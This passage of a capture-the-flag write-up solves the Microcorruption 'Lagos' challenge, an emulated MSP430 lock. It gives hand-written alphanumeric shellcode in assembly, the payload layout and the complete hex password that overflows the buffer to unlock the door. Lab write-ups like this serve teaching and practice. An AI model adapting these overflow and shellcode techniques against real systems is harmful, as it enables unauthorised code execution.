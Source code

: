 ```
  puts("That password is not correct.");
}

}
```

Looking at the implementation of the login function, there is no easy way of bypassing the limitation. Also due to the small binary size, we cannot use ROP chains; therefore, we have to craft our own shellcode using only alphanumeric characters.

I was stuck on this challenge for a long time and read [this](https://rakshacks.wordpress.com/2016/08/24/microcorruption-lagos/) and [this](https://nullset.xyz/2015/12/15/microcorruption-ctf-lagos/) before I was able to solve this.

Using the [instruction set](http://mspgcc.sourceforge.net/manual/x223.html), here is the shellcode I came up with:

```assembly
ret
add #0x7a7a, r9
subc #0x346C,R9
mov.b    r6, sr
add      #0x5444, sr
add      #0x5566, sr
add      #0x5556, sr
mov @R9+,PC
```

> the shellcode overrides the `conditional_unlock_door` function. that is why it starts with `ret`

The payload structure looks something like this:

- padding
- address of the shellcode
- more padding
- shellcode

password: `41 4141 4141 4141 4141 4141 4141 4141 4141 4844 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 4141 304139507a7a39706c3442463250445432506655325056553049`
